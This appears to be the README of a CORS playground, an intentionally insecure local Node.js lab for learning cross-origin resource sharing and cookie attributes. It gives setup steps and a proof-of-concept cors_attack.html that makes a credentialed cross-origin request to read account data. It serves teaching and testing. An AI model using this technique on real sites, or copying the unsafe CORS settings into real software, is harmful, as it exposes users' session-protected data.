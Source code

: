## CORS Playground
### Description

CORS playground provides a simple web application that you can utilise to enhance your comprehension of Cross Origin Resource Sharing. By default, it comes with CORS configured in a very unsafe way and could be easily exploited from different origins.

To make the most out of the CORS playground application, you are highly encouraged to play with the CORS settings and the session's cookie attributes both within the application code as well as different origin values. This cannot be stressed enough, changing the settings mentioned, testing them with different browsers and seeing how both CORS and the session's cookie behave under different configurations will increase your knowledge of these two critical components of web application security, their common misconfigurations; exploitation and how to secure them properly

### Default settings
CORS playground runs over https and listens on port number 5555

### URLs/endpoints
```http
POST /login.html
GET /main_page.html
GET /logout
GET /api/v2/accounts
GET /api/v1/accounts
```

### Example
The following is an example of running CORS playground on your local machine.

1. Add the following entries to the file /etc/hosts (remove the comments). You could use all these domains to test different values of the domain and SameSite cookie attribute.
```bash
127.0.0.1 playground.cors.test               ## Domain for the CORS playground application itself.
127.0.0.1 project.cors.test                  ## Same level domain as playground.cors.test.
127.0.0.1 pts.playground.cors.test           ## Subdomain of playground.cors.test
127.0.0.1 pts.playground.cors.test.com.au    ## domain .com.au
127.0.0.1 cors.test                          ## parent domain of playground.cors.test
127.0.0.1 another.domain.com                 ## A totally different domain
```
2. Run CORS playground with the command `nodejs app.js` then open it up on a browser as `https://playground.cors.test:5555/` and log in.
3. Run an Apache web server over TLS.
4. Paste the following HTML code into a file named cors_attack.html (this file is also provided in this repository) and saved it on your apache webroot which by default is: `/var/www/html/`

```html
<!DOCTYPE html>
<html>
<head><meta charset="UTF-8"></head>
<body>
<script>
 var xhr = new XMLHttpRequest();
 xhr.onreadystatechange = function() {
  if (xhr.readyState == XMLHttpRequest.DONE) {
   console.log(xhr.response);
  }
 }
 url = 'https://playground.cors.test:5555/api/accounts';
 xhr.open('GET',url,true);
 xhr.setRequestHeader('CORS-playground','Penetration Testing Team');
 xhr.withCredentials = true;
 xhr.send();
</script>
</body>
</html>
```
5. Open the following url `https://another.domain.com/cors_attack.html` on a browser and look that the account information is display on the browser console.
6. Use a http proxy such as Burp or the developer tools of the browser to observe the CORS requests/responses.
### Jump in
To keep improving your skills and knowledge of CORS you might like to:

1. Add/delete/modify the attributes of the cookie generated within this application. Look for the line:
```node
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'None'});
```
 Some settings you could try:
```node
res.cookie('session',randomvalue.toString(), {domain: '.playground.cors.test', httpOnly: true, secure: true, sameSite: 'Lax'});
res.cookie('session',randomvalue.toString(), { httpOnly: true, secure: true, sameSite: 'Strict'});
```
2. In the corsHandler function within the code of this applicaiton, uncomment the the section you'd like to play with and comment the remaining ones.
### References:
1. [CORS tutuorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/CORS)
2. [Same Origin Policy tutorial](https://developer.mozilla.org/en-US/docs/Web/Security/Same-origin_policy)
3. [Cookies tutorial](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
4. [portswigger CORS labs](https://portswigger.net/web-security/cors)
